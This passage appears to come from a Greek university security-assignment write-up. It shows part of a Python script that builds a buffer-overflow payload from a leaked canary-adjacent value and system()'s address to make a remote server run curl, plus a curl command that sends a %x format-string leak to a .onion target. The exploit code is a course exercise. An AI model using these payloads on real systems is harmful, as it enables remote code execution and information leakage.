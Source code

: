 ```python
data += bytes.fromhex(str(hex(int(last40[16:24],16)))[2:])[::-1]
data += bytes.fromhex(str(hex(int(last40[24:32],16)))[2:])[::-1]
data += bytes.fromhex(remote_sys_addr[2:])[::-1]

data += bytes.fromhex(single_pointer[2:])[::-1]
data += bytes.fromhex(single_pointer[2:])[::-1]

data += b"curl checkip.dyndns.org"
data += b"&"

print(data)
```
To script αυτό το χρησιμοποιήσαμε σε συνδιασμό με το final.sh και στην συνέχεια κάναμε το ίδιο curl με αυτό του ερωτήματος 4. Η επίθεση δούλεψε και το αποτέλεσμα που πήραμε είναι ```54.159.81.179```.
Επομένως το code του Plan Z είναι ``c454.159.81.179``.

### Τελικό script

Το script __run.sh__ δέχεται σαν όρισμα το αποτέλεσμα της vulnerable printf και ένα νούμερο που είναι 3,4 ή 5 για να τρέξει την αντίστοιχη επίθεση. Στο script αυτό αλλάξαμε λίγο το python script του δεύτερου ερωτήματος για να τρέχει με curl.

Το αποτέλεσμα της printf δίνεται από ``curl --socks5-hostname localhost:9050 'zwt6vcp6d5tao7tbe3je6a2q4pwdfqli62ekuhjo55c7pqlet3brutqd.onion/ultimate.html' -i --user %x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x: --data-raw 'ok' -H 'Content-Length: 0'``

### Σχόλια:

Tα test των επιθέσεων και οι επιθέσεις έγιναν σε WSL με Ubuntu 18.04. Λογικά θα δουλεύουν και σε 20.04. Αν προκύψει οποιοδήποτε πρόβλημα μπορείτε να επικοινωνήσετε μαζί μας στα email: sdi1700177@di.uoa.gr και sdi1700156@di.uoa.gr.


Στο python script που δημιουργεί το string της επίθεσης για το ερώτημα 5 χρησιμοποιούμε 2 σταθερές διευθύνσεις(f7babd49 και f7b782e0). Η πρώτη είναι η οκτάδα που παίρνουμε απο την printf, τοπικά, δηλαδή η πρώτη οκτάδα δεξία του canary και η δεύτερη είναι η τοπική διεύθυνση της system που προκύπτει από το ίδιο "τρέξιμο" που προέκυψε και η άλλη οκτάδα.  Για να το τεστάρετε μπορεί να χρειαστεί να το τρέξετε και να βάλετε τις δικές σας τιμές. 

Για τα ερωτήματα 4 και 5 μπορεί να χρειαστεί να προσθέσετε το flag --http0.9 στα curl στο run.sh. 
